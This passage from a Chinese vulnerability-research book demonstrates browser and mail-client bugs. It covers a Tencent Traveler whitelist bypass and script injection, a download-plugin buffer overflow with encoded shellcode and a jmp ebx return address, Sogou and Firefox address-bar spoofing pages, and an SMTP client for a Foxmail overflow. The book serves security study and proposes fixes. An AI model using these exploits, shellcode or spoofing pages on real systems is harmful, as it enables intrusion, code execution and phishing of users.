其实，这里有一个非常考验我们技术水平的地方。根据国际标准规定，在网址中如果存在“#”这个符号，就代表着从当前网页中查找标签的意思。而Tencent Traveler浏览器利用“#”这个符号干扰了我们将百度网址加入到白名单网址当中，浏览器在接收到“tt:addtowhite#http://www.baidu.com”这个网址后，会错误地认为http://www.baidu.com是当前网页中的一个标签。这种错误的解析导致浏览器无法利用tt:addtowhite协议将http://www.baidu.com网址加入到浏览器的白名单中。

怎么办？我们如何才能屏蔽浏览器对“#”这个符号的错误解析，从而完成将百度网址添加进入白名单网址的目的呢？既然“#”这个符号是一个干扰我们目的的符号，我们就再加一个符号来干扰“#”这个符号！修改config.htm文件的代码为下面的内容。

```html
<script>
function win(){
  window.navigate("tt:addtowhite@://http://www.baidu.com");
}
window.onload=function(){
```

```html
for(i=0; i<document.links.length; i++){
    document.links[i].href='javascript:Win()';
}
</script>
<a href="dd">点击这串测试能否修改 Tencent Traveler 浏览器的白名单网址信息</a>
```

大家请注意，这一次，我们在“#”这个符号前面加入了一个“@”符号，目的就是想要干扰浏览器对“#”这个符号的错误解析，那么我们的目的能不能达到呢？


图10.25 点击链接后的效果

再次运行 Tencent Traveler 浏览器，在其中访问新修改的 config.htm 文件，同时点击其中的“点击这串测试能否修改 Tencent Traveler 浏览器的白名单网址信息”链接，效果如图10.25所示。

不可思议的事情终于发生了！在我们点击 config.htm 网页文件中的超级链接后，Tencent Traveler 浏览器弹出了一个提示窗口，上面显示“添加白名单成功：http://www.baidu.com/*”。难道说，我们成功将百度的网址加入到了浏览器的白名单网址当中吗？查看一下此刻的浏览器配置信息，如图10.26所示。


图10.26 此刻百度网址加入到了白名单中

无需多言，我们成功地将百度的网址加入到了 Tencent Traveler 浏览器的白名单网址当中，而这一切竟然是由于 Tencent Traveler 浏览器访问了一个远程域的网页而导致，跨域漏洞的权限早已越过远程域限制，成功修改了本地域权限的浏览器配置信息。而它的危害就是造成了 Tencent Traveler 浏览器的黑白名单安全机制失效，无法有效地阻止恶意网址对用户浏览器的攻击了。

#### 10.2.4 腾讯 Tencent Traveler 浏览器任意代码注入执行漏洞

这一次，我们一起来分析一个非常有意思的漏洞，这一次的安全漏洞可以说完全是因为额外功能导致浏览器软件出现安全漏洞。

## 第10章 浏览器中的特殊漏洞

我们这一次演示的浏览器是腾讯 Tencent Traveler 浏览器 4.6.1（436），其实低于此版本的 Tencent Traveler 浏览器都存在该安全漏洞，所以，大家可以直接在前面提到的腾讯 Tencent Traveler 浏览器 4.5 版本上进行实验。

运行 Tencent Traveler 浏览器，在 Tencent Traveler 浏览器的右上方有一个“网页提取”工具图标，如图10.27所示：


这个浏览器插件工具的功能是为 Tencent Traveler 浏览器的用户提供了保存打开网页中图片、文字、Flash 的功能。

我们现在随意打开一个网站，这里假设为一个论坛程序，然后点击“网页提取”，如图10.28所示。


此时，我们看到 Tencent Traveler 浏览器的网页提取功能将当前网页中的图片进行了提取，同时排列成一个表，然后在网页上方给出了“保存所选”这样的保存被提取出来图片的功能。我们还注意到当我们双击其中某一个图片时，Tencent Traveler 浏览器会自动将该图片在浏览器中打开显示，可以说 Tencent Traveler 浏览器为用户提供了一种非常好的网页浏览辅助功能。

但是，现在让我们想一想这种浏览器网页提取功能的实现原理。拿提取网页图片功能来作为例子，首先，Tencent Traveler 浏览器必须找出当前网页中的每一个图片元素。这个功能可以利用对网页中 IMG 标签的遍历来获得。接下来，浏览器必须对图片元素的属性进行自动分析，找出图片的来源地址，也就是 IMG 元素的 src 属性值，同时获得图片的名称，将这两个值做成一个列表，然后回显到浏览器上，形成图10.28中的样子。根据分析，Tencent Traveler 浏览器的网页提取功能确实是按照这样的原理来实现的，其中部分实现代码如下。

```javascript
var strImgUrl = "";
var i = 0;
var objIndexSmall = new Array;
var objIndexBig = new Array;
var objIndexHuge = new Array;
var objColImg = objDoc.all.tags("img"); // 获取网页中的所有 img 元素
// title same url
for(i = 0; i < objColImg.length; i++)
{
    var objImg = objColImg[i];
    if(CheckSame(objImg.src)) // 获取 img 元素的 src 属性值
        continue;
}
```

这时一个问题出现了，Tencent Traveler 浏览器网页提取功能获得的这些网页属性值被浏览器重新显示了一次，例如图片的 src 值。只有这样用户在双击某一张图片时，Tencent Traveler 浏览器才会按照 src 来源地址来打开图片。我们看一看 Tencent Traveler 浏览器这段实现代码。

```html
<div class="img_block"><table style='cursor:hand;' cellspacing=0 cellpadding=0 border=0><tr><td id='bpcx' tabindex=1 class='normal_block' onmouseover="OnOverBlock("+nIndex+")" onmouseout="OnOutBlock("+nIndex+")" onclick="OnClickBlock("+nIndex+")" ondblclick="OnClickImg('"+strUrl+"');return false;"></td></tr></table></div>
```

其中 strUrl 为 Tencent Traveler 浏览器获取的当前网页中图片的来源网址，即 IMG 的 src 属性值。现在，如果我们设置一个图片的 src 值为一段精心编写的脚本，Tencent Traveler 浏览器的网页提取功能会怎样显示呢？

现在，我们来做一个测试，我们将一个网页中的图片的 src 值设置为“<marquee>爱无言”，其中，“<marquee>”是一个 HTML 标签，其作用就是让文字移动起来。现在我们来看看效果，如图10.29所示：


我们看到图10.29中显示出一个“爱无言”的名字，其实在你做测试的时候，这个名字是在自动飞舞的。

相信大家现在忽然明白什么意思了：Tencent Traveler 浏览器的网页提取功能会自动执行 HTML 脚本语句。

现在，我们已经发现可以通过修改网页元素属性值的方法来将 HTML 脚本注入到 Tencent Traveler 浏览器中执行；这隐约看起来是一个安全问题，如果我们能将 JavaScript 脚本也注入到 Tencent Traveler 浏览器中来执行，那么这个问题的安全威胁就被扩大了。

回到前面给大家提供的一段 Tencent Traveler 浏览器网页提取功能实现代码：`ondblclick="OnClickImg('" + strUrl + "');return false;"`。这个地方是一个非常关键的地方，我们看到图片 IMG 元素的 src 属性值被放入了 ondblclick 这个消息处理中，也就是我们在双击网页提取功能给出的图片时，Tencent Traveler 浏览器就会自动调用这个 ondblclick。

于是，我们现在需要做的事情就是将我们想要执行的 JavaScript 脚本注入到这里。但是，这里面临一个问题。我们的 JavaScript 脚本注入在了 strUrl 这个地方，它前面的 OnClickImg 函数必须正确执行，后面的 return false 也必须正确封闭好。所以，我们的 JavaScript 脚本大概类似这个样子：“');xxxxx”，不包含两边的双引号。

好了，至此我们分析完了 Tencent Traveler 浏览器这个代码注入执行漏洞的原理与利用方法。

最后，我们给大家提供一个演示网页的例子，这个例子在我们使用 Tencent Traveler 浏览器图片提取功能后，一旦我们双击网页提取后的图片，Tencent Traveler 浏览器将会陷入到一个死循环中，这个死循环调用了 Tencent Traveler 浏览器自身提供的一个方法，而这个方法只有在我们获得 Tencent Traveler 浏览器自身域权限的情况下才会被执行，所以也证明我们将 JavaScript 代码确实注入进了 Tencent Traveler 浏览器域中，这就是一个典型的跨域脚本执行漏洞。

## 第10章 浏览器中的特殊漏洞

关于其它的利用方法，我相信通过大家的努力测试，可以将更为复杂的 JavaScript 脚本注入到浏览器中执行。

演示网页的代码如下：

```
腾讯浏览器代码注入漏洞之拒绝服务演示，发现者：爱无言！欢迎访问：http://hi.baidu.com/digexploit<br>
</img>
```

这个演示例子同时给出了一个欺骗 Tencent Traveler 浏览器图片提取功能的方法，就是 Tencent Traveler 浏览器图片提取功能在获得图片名称的时候，采用的是判断 src 属性值最后一个“/”符号后面的值，将这个值整个取出来作为图片名称使用。为此，我们可以任意修改图片想要显示的名称。

最后，谈一谈这个漏洞的修补建议，只要对 src 属性最后的名称是不是属于图片格式后缀进行判断，就可以轻而易举地避免这个漏洞的发生。

### 10.3 插件引发的安全漏洞

浏览器软件的开发者为了能够丰富浏览器软件的使用功能，往往会给浏览器软件编写很多的浏览器插件。正是借助这些浏览器插件，浏览器软件才具有了很多额外的功能。例如，我们在前面 10.2.4 小节中分析过的那个跨域脚本代码执行漏洞，其最终的原因就是由于腾讯 Tencent Traveler 浏览器自带了一个用来进行网页提取功能的插件，造成了安全漏洞的发生。

在很多时候，这些用来丰富浏览器软件功能的插件却往往成为影响浏览器使用安全的罪魁祸首。我们下面要看的案例就是一个非常典型的浏览器插件引发的“血案”。

2007年初，我公布了腾讯 Tencent Traveler 浏览器的一个缓冲区溢出漏洞，这个漏洞的成因就是由于 Tencent Traveler 浏览器自带了一个用来实现下载功能的额外插件造成的。

> **小贴士：** 这里用来给读者演示的案例中所涉及的腾讯 Tencent Traveler 浏览器版本应算是比较老的一个版本，现在很难找到，这篇文章的截图都是2007年保留下来的。所以，读者主要以学习其中的挖掘思路为主。


图10.30 Tencent Traveler 浏览器整合了“旋风下载”插件

首先，让我们看看漏洞产生的细节。当你安装了 Tencent Traveler 浏览器后，会发现它有一个下载插件，叫做“旋风下载”，这个类似于加速下载器，当你点击下载超链的时候，会提示使用“旋风下载”，如图10.30所示。

当你选择使用“旋风下载”后，会出来一个对话框，让你选择“打开”“保存”或者“取消”。这个时候如果你选择的是“打开”，那么根据程序的运行，会首先在你的当前登录用户名的临时文件夹下建立临时下载文件。例如我登录的用户名是 new，那么这个临时文件夹就是“C:\Documents and Settings\new\Local Settings\Temp”，临时文件名就是要下载文件本身的文件名，下载完后自动打开文件。问题就出在这里，我们都知道 Windows 下的文件命名规则是文件名长度必须在256个字符以内，这其中包括文件路径长度，可是 TT 的下载插件“旋风下载”，在传递文件名参数的时候，竟然是用了260个字符长度，如图10.31所示。


图10.31 反汇编中显示“旋风下载”的文件名长度有0x104个字节

图10.31中的104为16进制，转换10进制即260；这样当程序返回时，返回地址被覆盖成多出来的4个字节，从而导致溢出发生。根据反汇编结果，漏洞产生流程为：点击“打开”→发出消息→消息处理函数 oncmdmsg→创建临时文件函数→系统函数 makepath→创建完毕（这里已经出错，系统函数并未创建文件，因为文件名已经超长）→准备返回→地址被覆盖出错。

看了分析，你是不是觉得很简单，于是想测试一下，其实真正的难点就在利用，因为获得用户临时文件夹位置的函数得出的文件夹名长度是变化的，并且因为是文件名，特殊字符如“\”“.”等都不允许出现，这使得我们必须对 shellcode 的编码提出要求，并且这里并不能使用普通栈溢出的 jmp esp 来获得执行 shellcode 的跳转，因为如果你放入更长的文件名，就会导致程序另一个地方的错误。根据调试结果，我们可以用 jmp ebx 的方法来替代 jmp esp 获得执行 shellcode 的机会。

接下来说说 shellcode 的编码问题，这里有一个简单的打开 command 的一段 shellcode：

```asm
0x8B,0xE5        /* mov esp, ebp */
0x55             /* push ebp */
0x8B,0xEC        /* mov ebp, esp */
0x83,0xEC,0x0C   /* sub esp, 0000000C */
0xB8,0x63,0x6F,0x6D,0x6D   /* mov eax, 6D6D6F63 */
0x89,0x45,0xF4   /* mov dword ptr [ebp-0C], eax */
0xB8,0x61,0x6E,0x64,0x2E   /* mov eax, 2E646E61 */
0x89,0x45,0xF8   /* mov dword ptr [ebp-08], eax */
0xB8,0x63,0x6F,0x6D,0x22   /* mov eax, 226D6F63 */
0x89,0x45,0xFC   /* mov dword ptr [ebp-04], eax */
0x33,0xD2        /* xor edx, edx */
0x88,0x55,0xFF   /* mov byte ptr [ebp-01], dl */
0x8D,0x45,0xF4   /* lea eax, dword ptr [ebp-0C] */
0x50             /* push eax */
0xB8,0x24,0x9B,0x22,0x78   /* mov eax, 78229B24 system地址 */
0xFF,0xD0        /* call eax */
```

在上面这段 ShellCode 代码当中，我们发现有两个地方出现非法字符，一个是 `mov eax, 226D6F63`；这里 `0x22` 是非法字符。为让该字符成功赋值给 eax，可先 `mov eax, 2F6D6F63`，再通过 xor 语句间接赋值。另一个是 `xor edx, edx`，其中 `0x33` 是特殊字符，不允许出现在文件名里，因此可改为仅清理 dl 等方式规避，避免 shellcode 被截断失效。

那么不就可以将 dl 清零了吗？所以这句改成 `shl edx, 2`。等等，别急，这里的 2 还是特殊的字符，我们不能用，我们就放心地右移 `0x55` 个字节，其实代码只会右移6位的。到现在我们的 shellcode 已经符合要求了。


图10.32 成功执行 ShellCode 的画面

那么，让我们赶快修改返回地址，让它溢出后来执行我们的 shellcode。我在 ws2_32.dll 里找了一个 `jmp ebx` 的语句地址为 `0x71a2773b`，为什么从这里找，因为这个库文件里的 `jmp ebx` 语句地址最为稳定，当然你也可以找别的库里的，这个只是我个人所好。好了，写一个超链接语句，`<a href=http://www.zlz8.com/aaaaaa.....jmp ebx>go hack</a>`，其中 a 的数目是根据你的系统临时文件夹路径长度与 256 的差值得出来的，因为程序产生的临时文件完整路径是：“你的临时文件夹路径 + 下载文件名”。要达到256个字符，后面的4个字节才能覆盖到返回地址上。然后把其中一部分换成我们前面写的 shellcode，最后是 `jmp ebx` 的地址，把这个语句保存成 htm，用 TT 打开它，点击下载，用“旋风下载”，然后选“打开”，出现我们可爱的 DOS 窗口了吧，如图10.32所示。其实，利用“保存”选项也能触发这个漏洞，只是我没再深入调试，就留给大家练手了。

### 10.4 来自浏览器的欺骗

#### 10.4.1 欺骗漏洞的危害

在浏览器的安全领域，有一种漏洞是非常特殊的，它不会对用户系统产生直接性的攻击。举个例子来说，大家熟知的缓冲区溢出漏洞，这种漏洞可以用来执行 ShellCode，一旦浏览器软件存在缓冲区溢出漏洞，那么，恶意攻击者就可以通过漏洞直接在用户系统中执行任意代码。

你一定很疑惑，既然不会产生直接性质的攻击，那么这种安全漏洞有什么意义呢？不知道你听说过“网络钓鱼”吗？“网络钓鱼”是恶意攻击者利用伪造知名网站，诱骗用户登录访问这些伪造网站，从而盗取用户个人信息的一种攻击方式。“网络钓鱼”最大的危害在于用户以为自己访问的网站是正确的，从而信任该网站，于是便将自己的个人信息输入其中，导致恶意攻击者可以借此来获取到用户的网上银行账号、邮箱密码等等。

一个恶意攻击者要想成功实现“网络钓鱼”需要做好两个准备：第一个准备是制作一个与正规网站一模一样的伪造网站。就像是网上银行系统，恶意攻击者可以制造一个与某网上银行一模一样的首页文件，然后，在上面也有用户登录区域，只不过，这个登录区域是可以记录用户输入的账户和密码信息。这个伪造网站程序可以不用十分完整，只需要一个首页文件，这个首页文件要与被模仿……的正规网站一模一样。用来记录用户个人信息的登录区域，可以设定一个记录用户输入的账户和密码信息的文件。当用户输入个人信息点击“登录”按钮后，可以直接将用户引向正规网站的网址，从而避免被用户发现其中的异常。

第二个准备就是域名地址。域名地址就是我们输入在浏览器当中的那个 URL 地址，俗称“网址”。

假设被模仿的正规网址是 http://www.zoypay.com，恶意攻击者为了使用户通过浏览器访问钓鱼网站，在浏览器地址栏中显示的网址类似于正规网址，他可以为钓鱼网站设定这样一个冒充网址：http://www.z0ypay.com。请大家注意，这个冒充的网址中字母 z 后面紧跟的不是字母 o，而是一个数字 0。如果用户不注意浏览器地址栏中的网址，一眼看上去，冒充网址与正规网站的网址几乎一模一样。

这两个准备是完成一次“网络钓鱼”的充分必要条件。但是，对于恶意攻击者来说，有时候他都不需要准备第二个条件，也就是为钓鱼网站申请一个冒充网址。因为，用户访问网站时候绝大多数都是利用浏览器软件来访问的，如果浏览器软件自身存在安全漏洞，那么，恶意攻击者就可以借助浏览器自身的安全漏洞来实现在浏览器地址栏中显示正规网站的网址，而实际显示的内容却是来自钓鱼网站。这样一来，用户的眼睛就完全被欺骗，造成用户信任自己当前打开的网址是来自正规网站，从而将自己的个人信息泄露给钓鱼网站。这种被恶意攻击者用来实现欺骗用户眼球的安全漏洞，就被我们称之为“浏览器欺骗式漏洞”。

“浏览器欺骗式漏洞”主要是实现某些对用户视觉上的欺骗，造成用户十分信任浏览器显示的内容与浏览器访问的网址是一致的。浏览器的欺骗式漏洞在某些程度上甚至完全可以欺骗安全专家的眼睛。就像我们前面举过的例子，http://www.z0ypay.com 这个冒充网址虽然看上去十分类似于 http://www.zoypay.com 这个正规网址，但是，安全防范意识较高的用户还是能够察觉到浏览器地址栏中显示网址的不正确性。而浏览器软件的欺骗式漏洞有时却可以显示的就是正规网址，而实际内容却是恶意钓鱼网站内容。如果你不信，我们将在下面的 10.4.2 案例中马上为你展示一个绝对欺骗眼球的浏览器软件的欺骗式漏洞。

#### 10.4.2 搜狗浏览器的页面欺骗漏洞

2010 年 2 月，xisigr 在自己的百度博客上发表了一篇 0day 漏洞文章。文章的内容就是关于一款国内知名浏览器软件——搜狗浏览器。该浏览器的 1.4.0.418（正式版）存在一个非常严重的欺骗式漏洞。恶意攻击者可以利用它来实现对浏览器用户的完全欺骗。现在，就让我们来看一看这个漏洞是怎样被挖掘出来的。


图10.33 被测试搜狗浏览器的版本号为：1.4.0.418

首先，了解一下本次漏洞挖掘的测试环境：

- 操作系统：Windows XP SP2 32位版本
- 漏洞测试运行环境：IIS
- 漏洞测试目标软件：搜狗浏览器 1.4.0.418（正式版）

在我们的 Windows XP SP2 系统中安装好搜狗浏览器 1.4.0.418（正式版），如图10.33所示。

将下面这段网页代码保存为 soug.htm，并且上传到 IIS 的 Web 目录当中。

```html
<center>
<h1>SogouExplorer spoofing</h1>
</center>

<p>
<a href="javascript:spoof()">test!</a>
<p>
<script>
function spoof()
{
    window.location = "http://www.google.cn";
    document.write("<title>Google</title>");
    document.write("<h1>这里显示的内容被我们控制了</h1>");
}
</script>
```


图10.34 访问 soug.htm 文件

首先来为读者解释一下这段代码的意义。代码首先建立了一个超级链接“test!”，当我们点击该链接后，浏览器就会执行“spoof”这个函数。

“spoof”这个函数中，我们利用窗口对象 Window 的 location 属性，控制浏览器当前访问的网址改变为 http://www.google.cn，即谷歌中国的网址。

接下来，我们使用“document.write”这个函数在浏览器中输出两段网页代码，第一段网页代码是“`<title>Google</title>`”，即网页标题为 Google；第二段网页代码是“`<h1>这里显示的内容被我们控制了</h1>`”，即显示一段“这里显示的内容被我们控制了”的文字。

此刻，我们很疑惑，既然当我们点击了“test!”超级链接后，“spoof”函数就会马上利用“window.location”来命令浏览器立即访问谷歌中国的网址 http://www.google.cn，这个时候浏览器中显示的页面就应当变为了谷歌中国网址的内容。那么，“spoof”函数最后的两句代码 `document.write("<title>Google</title>");` 和 `document.write("<h1>这里显示的内容被我们控制了</h1>");` 所输出的网页代码又会打印到哪里呢？回答这个问题最好的办法就是让我们实际来测试一下。

运行搜狗浏览器 1.4.0.418（正式版），在浏览器上方的地址栏中输入 http://127.0.0.1/soug.htm 回车访问，如图10.34所示。

用鼠标点击浏览器中间显示的“test!”这个超级链接，你会发现一个惊人的画面，如图10.35所示。


图10.35 浏览器显示的内容不是谷歌网站的内容

这个时候，搜狗浏览器上方的地址栏中显示的网址确实就是谷歌中国的网址 `http://www.google.cn`，然而，浏览器中间显示的网址内容却不是谷歌中国的网站内容，而是“这里显示的内容被我们控制了”这样一段文字！

毫无疑问，此刻搜狗浏览器中显示的内容来自于我们前面分析过的“spoof”函数的最后两句代码，即 `document.write("<title>Google</title>");` 和 `document.write("<h1>这里显示的内容被我们控制了</h1>");`。因为这个时候搜狗浏览器显示的当前网页标题也正好就是“Google”。

不可思议的事情就这样发生了，明明搜狗浏览器地址栏中显示的网址是谷歌中国的网址，可实际显示的网站内容却是可以被我们随意控制的。如此一来，安全漏洞就发生了。结合前面介绍的“网络钓鱼”，恶意攻击者现在可以随意控制浏览器中显示的内容为一个伪造的知名网站内容，而且，他不需要去申请什么伪造网址。利用搜狗浏览器软件的这个安全漏洞，他可以直接使用正规网站的网址来欺骗用户。用户根本不会想到此刻浏览器访问的网址竟然与实际显示的内容完全是两回事。

这个安全漏洞发生的原因，根据漏洞发现者 xisigr 的解释是：在搜狗浏览器中，`window.location` 和 `document.write` 两个函数发生条件竞争阻塞。`window.location` 函数使 URL 中显示到一个地址域，同时页面元素却可以被 `document.write` 函数所改写。这样导致攻击者可以篡改页面，来实施钓鱼欺骗攻击。

Xisigr 利用十分短小的网页代码却发现了搜狗浏览器一个严重的欺骗安全漏洞，我们在自己的漏洞挖掘学习过程中，一定要借鉴这种思路。

#### 10.4.3 不能相信自己的眼睛——火狐浏览器 URL 地址欺骗漏洞

前面，我们学习了关于搜狗浏览器的一个欺骗式漏洞，搜狗浏览器的欺骗式漏洞主要是因为浏览器在解析 JavaScript 函数时发生了竞争，没有按照顺序来执行导致的。

不过，对于浏览器软件来说，欺骗式漏洞还有另外的成因。我们下面要提到的这个欺骗式漏洞，其实就是因为浏览器本身对网址编码解析错误而造成的问题。

我们这里的测试环境是：

| 项目 | 内容 |
|---|---|
| 操作系统 | Windows XP SP2 32位版本 |
| 漏洞测试运行环境 | IIS |
| 漏洞测试目标软件 | 火狐浏览器 3.0.9 版本 |

> 小提示：火狐浏览器的版本在这里并不重要，几乎所有版本的火狐浏览器都存在这里叙述的漏洞。所以，大家也可以使用其它版本的火狐浏览器来做测试。

“%20”这个编码，火狐浏览器会将它转换为空格符号。这就给我们带来一个机会。我们首先来做一个测试，我们建立一个网页文件 ff.htm，其中的代码如下所示。


图10.36 访问 ff.htm 文件

<a href="http://127.0.0.1/1%20%20%20%20%20...%20.jpg">hacking</a>

```html
```

其中，我们注意到我们建立的超级链接“hacking”的网址是指向 127.0.0.1 这个本地 IP 地址上的一个 jpg 图像文件，不过，这个 jpg 文件的名字是由 %20 组成。将 ff.htm 文件上传至 IIS 的 Web 服务目录下。现在，让我们使用火狐浏览器访问这个文件，如图10.36所示。用鼠标点击“hacking”超级链接，如图10.37所示。


图10.37 点击“hacking”链接后的效果


图10.38 图片的文件名中充满了大量空格符号

我们注意到此刻火狐浏览器的地址栏中显示的网址是 http://127.0.0.1/1，而实际打开的却是一张图片文件。其实，此刻火狐浏览器打开的图片文件的名字是这样的“1 空格空格....jpg”，如图10.38所示。火狐浏览器将 ff.htm 网页中的“%20”这个编码转换成了空格符号，而空格符号在火狐浏览器的地址栏中是不可见的。同时，这些空格符号又过于长，导致火狐浏览器无法全部显示，如图10.39所示。


图10.39 过长信息不能完整显示的浏览器地址栏中

这就导致，我们在火狐浏览器中看到的网址不是完整的网址，同时又存在不可见的空格字符，所以我们就误以为此刻浏览器打开的网址就是“http://127.0.0.1/1”，而实际却是“http://127.0.0.1/1空格空格....jpg”这个网址。如果你现在用微软的 Internet Explorer 浏览器访问我们的测试网页 ff.htm，并点击其中“hacking”超级链接，你会发现 Internet Explorer 浏览器的显示就不像火狐浏览器那样。火狐浏览器的这个网址编码转换功能，造成被编码的网址可以最终转换出我们不可见的特殊字符，这个时候，火狐浏览器的地址栏显示的信息就完全不可信了。要注意到这种微小的细节。

其实，对于这种编码转换造成的浏览器欺骗式漏洞，不仅仅限于我们这里给大家演示的火狐浏览器，很多浏览器软件同样存在这样的安全漏洞。例如，Internet Explorer 6 浏览器在处理特殊字符时也会发生 URL 地址欺骗漏洞。所以，大家可以发散思维，用不同的编码组合来测试浏览器软件是否存在这样的 URL 地址欺骗漏洞。


图10.40 IE 浏览器会显示出空格符号的编码

## 思考题：

浏览器特殊漏洞一般是怎么造成的，我们应当从哪里进行安全测试？

## 答案：

大体上讲，浏览器特殊漏洞都是由于浏览器提供了额外的功能从而造成安全漏洞的发生，这些漏洞在挖掘时必须依据具体情况具体对待，这其中最为常见的就是跨域漏洞。测试跨域漏洞，我们需要使用带有跨域性质的脚本代码进行测试，例如本章第 10.2.2 节中使用的那段添加 “aiwuyan” 用户的代码。要运行这段代码必须是在本地系统中，需要本地用户权限。

## 第11章 邮件客户端软件的漏洞挖掘

邮件客户端软件是在企业、政府单位中使用最为广泛的一类应用软件，因为这些单位中的人员经常使用电子邮件作为联系交流的主要方式，很多工作任务的布置都是采用电子邮件的形式通知到员工，员工利用邮件客户端软件来接收这些新的电子邮件。当他们频繁使用这些邮件客户端软件的时候，他们可能并没有意识到这些软件一旦出现安全漏洞会造成什么恶果。企业、政府内部的网络是一个要求高度保密和稳定的网络，可是，当邮件客户端软件出现安全漏洞的时候，某一个恶意的员工就可以借此漏洞渗透进入网络内部任何人的计算机系统为所欲为，甚至他可以借此漏洞在网络中散播木马病毒，破坏企业、政府的正常办公系统。你一定疑惑，邮件客户端软件的安全漏洞就这样危险吗？它们究竟又是怎样被挖掘出来的呢？本章将为你揭示这其中的秘密。

### 11.1 邮件客户端软件简介

邮件客户端软件是指专门安装在用户系统当中，用来接收和发送电子邮件的一类应用程序。它的工作原理我们在本书的第 7 章的开始部分已经学习过。

对于一般的用户来说，邮件客户端软件可能使用的不多，但是，对于企业中的员工来说，尤其是 IT 企业的员工，邮件客户端软件的使用就非常频繁了。在这些企业中，员工汇报或者交流自己的工作情况，都是通过邮件客户端软件来接收发送电子邮件进行的。

最为常见的电子邮件客户端软件，在 Windows 系统下主要是微软的 Outlook、KooMail，国内的 FoxMail、DreamMail 等等。Linux 系统下主要是雷鸟。

邮件客户端软件的工作主要是接收电子邮件。在接收电子邮件的过程中，邮件客户端软件需要使用 POP3 协议与电子邮件服务程序进行数据交互，而发送电子邮件时则需要使用 SMTP 协议与电子邮件服务程序进行数据交互。其工作原理如图11.1所示。


一旦邮件客户端软件接收到一封电子邮件，它就像文件处理软件那样处理电子邮件，因为此时的电子邮件就相当于一个保存在本地计算机磁盘上的文件。既然这样，那么如果我们修改电子邮件中的数据信息，邮件客户端软件在处理被修改后的电子邮件时就很可能会发生安全漏洞。下面，我们就从这个思路出发，来看一看针对邮件客户端软件应当如何下手挖掘安全漏洞。

### 11.2 邮件客户端软件溢出漏洞的挖掘

#### 11.2.1 建立漏洞测试思路

要想挖掘邮件客户端软件的缓冲区溢出漏洞，我们首先建立的思想就是：邮件客户端软件的主要功能是处理邮件，那么，我们能不能参考以前 FileFuzz 的思路，来构建包含不同数据的邮件，将这些邮件提交给邮件客户端软件来处理，看一看在处理过程中会不会发生缓冲区溢出漏洞。这个思想是正确的，不过邮件的内容格式是以明文方式出现的。

```
Return-Path: <test@local.com>
Delivered-To: test@local.com
Received: from localhost ([127.0.0.1]:1318)
by mailer.cn with JDMail v3.10 ESMTP Server
id <S1AB04> for <test@local.com>; from <test@local.com>;
Tue, 25 May 2010 20:46:29 +0800
Message-Id: <4BFBC6A6BE83FF.test@local.com>
Date: Tue, 25 May 2010 20:46:29 +0800
From: test@local.com
To: test@local.com
Subject: x
MIME-Version: 1.0
Content-Type: multipart/mixed;
boundary="----JDWM-20001101-1274791589"
X-Mailer: JDWM 3.10

------JDWM-20001101-1274791589
Content-Type: text/html; charset="GB2312"
Content-Transfer-Encoding: 7bit

<html><head><meta http-equiv="content-type" content="text/html; charset=GB2312"></head><body>
x
</body></html>
```

上面这段代码其实就是一封邮件中的内容。邮件的格式非常固定，每一行开始有一个以冒号结尾的字符串，例如上面代码中第一行的“Return-Path:”。这个字符串被称为邮件的固定标示。它的作用是表明邮件中那些数据是代表什么意思的。例如，“Return-Path:”这个标示就代表了邮件返回地址的意思。

固定标示后的数据就是对标示意思的补充，例如“Return-Path:”后的 test@local.com，就代表 `<test@local.com>` 这个地址是该邮件的返回地址。

这个时候，我们就有了一个构建测试邮件的思路。邮件中的固定标示是不能够被随意修改的，因为它们是代表着固定的意思；而固定标示后的数据却是可以随意修改的。我们就可以将这些数据修改为过长或者过大的数据，然后保存修改后的邮件，提交给邮件客户端软件处理，从而探测出邮件客户端软件在处理这些测试邮件过程中可能存在的安全漏洞。

这种思想非常类似于我们在本书第 7 章中学到的，利用修改邮件命令中的用户数据部分用来挖掘邮件服务程序的安全漏洞。

### 11.2.2 Foxmail5缓冲区溢出漏洞挖掘实例

首先，还是漏洞挖掘环境的介绍。

| 项目 | 内容 |
|---|---|
| 操作系统 | Windows XP SP2 32位版本 |
| 漏洞测试目标软件 | Foxmail 5.0版本 |
| 漏洞辅助软件 | 金笛邮件服务器程序、Visual C++ 6.0 |

2004 年，启明星辰的安全研究人员率先发现了国内著名邮件客户端软件 Foxmail 5.0 在处理带有过长“From”字段的邮件时会发生缓冲区溢出。恶意攻击者可以借助该漏洞向 Foxmail 5.0 用户发送一封带有攻击代码或者木马病毒程序的邮件，用户只要用 Foxmail 5.0 接收该邮件后，漏洞就能够被成功触发，从而实现远程入侵用户系统。


前面我们为大家介绍过一封邮件的基本格式，也为读者解释过如何针对邮件的基本格式来进行针对邮件客户端软件的安全测试。一封邮件中所包含的数据一般取决于发送这封邮件时的 SMTP 命令（关于这个命令我们在本书的第 7 章曾为读者介绍过）。为此，我们就可以借助 SMTP 的命令来构造一封带有过长数据的包含 From 字段的邮件，然后，使用 Foxmail 5.0 接收该邮件从而来触发它的缓冲区溢出漏洞。


SMTP 命令是邮件发送协议，我们首先需要在本地计算机上安装一个邮件服务程序，我们这里选择的是金笛邮件服务程序。

金笛邮件服务程序的安装很简单，安装好后，我们需要登录该邮件服务程序的后台，在其中添加一个邮件域“local.com”，如图11.2所示。

添加完毕后，再为该邮件域添加一个用户“test”，并且设定该用户密码为“123456”，如图11.3所示。

设定完毕后，我们就需要使用微软的编程软件 Visual C++ 6.0 程序来开发我们的漏洞测试代码了（完整代码请见光盘中 foxmail.c）。

我们这里将漏洞测试代码中的核心部分拿出来，向读者做一个解释，如下所示。

```c
clear(temp);
ret=send(sock,"EHLO server\r\n",strlen("EHLO server\r\n"),0);
replay(sock,250);
// 在第一次登录邮件服务程序的25号端口时，按照SMTP协议要求，首先应当发送EHLO命令

clear(temp);
ret=send(sock,"AUTH LOGIN\r\n",strlen("AUTH LOGIN\r\n"),0);
replay(sock,334);
// 接着，发送用户认证命令

clear(temp);
ret = Base64Encode(msg,(const unsigned char *)"test@local.com",strlen("test@local.com"));
msg[ret]='\0';
strcat(msg,"\r\n");
ret=send(sock,msg,strlen(msg),0);
replay(sock,334);
// 发送登录用户名

clear(temp);
ret = Base64Encode(msg,(const unsigned char *)"123456",strlen("123456"));
msg[ret]='\0';
strcat(msg,"\r\n");
ret=send(sock,msg,strlen(msg),0);
replay(sock,235);
// 发送登录用户名的密码

clear(temp);
ret=send(sock,"MAIL FROM:<test@local.com>\r\n",strlen("MAIL FROM:<test@local.com>\r\n"),0);
```

```cpp
replay(sock, 250);
// 发送邮件的来源地址
clear(temp);
sprintf(temp, "RCPT TO: <%s>\r\n", mailaddr);
ret = send(sock, temp, strlen(temp), 0);
replay(sock, 250);
